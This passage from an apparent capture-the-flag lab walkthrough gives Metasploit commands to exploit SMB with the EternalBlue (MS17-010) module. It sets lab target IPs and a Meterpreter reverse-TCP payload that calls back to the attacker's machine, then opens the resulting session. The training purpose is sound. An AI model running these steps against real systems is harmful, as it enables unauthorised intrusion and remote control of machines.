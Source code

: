 
## 3) Search & choose Metasploit module
**Why:** match known vuln to a Metasploit exploit module. `search` helps find modules for the service/vuln indicated by enumeration outputs.

**Commands (in `msfconsole`):**
```text
# Start Metasploit framework
msfconsole

# Search modules for SMB or specific vuln
search smb
search ms17_010
```

---

## 4) Inspect and configure the exploit module
**Why:** `info` and `show options` reveal required settings (RHOSTS/RPORT/payload/etc.) and any module-specific notes. Always verify these before running an exploit.

**Commands (example: EternalBlue module):**
```text
use exploit/windows/smb/ms17_010_eternalblue
info
show options

# Set target and network options (replace with lab IPs)
set RHOSTS 10.201.62.125
set RPORT 445
set THREADS 10

# Choose a payload and configure callback
show payloads
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.201.56.193    # your AttackBox IP
set LPORT 4444
show options
```
**Why payload selection matters:** payloads determine the type of session you get (meterpreter is a flexible post-exploitation environment). Choose architecture-appropriate payload (x86 vs x64).

---

## 5) Run exploit and obtain session
**Why:** execute exploit only in the lab and monitor output for success/failure and session creation.

**Commands:**
```text
# execute
run
# or
exploit
```
**After successful exploit:** Metasploit will show a session ID (e.g., `meterpreter >`). List and interact with sessions:
```text
sessions -l
sessions -i 1
```

---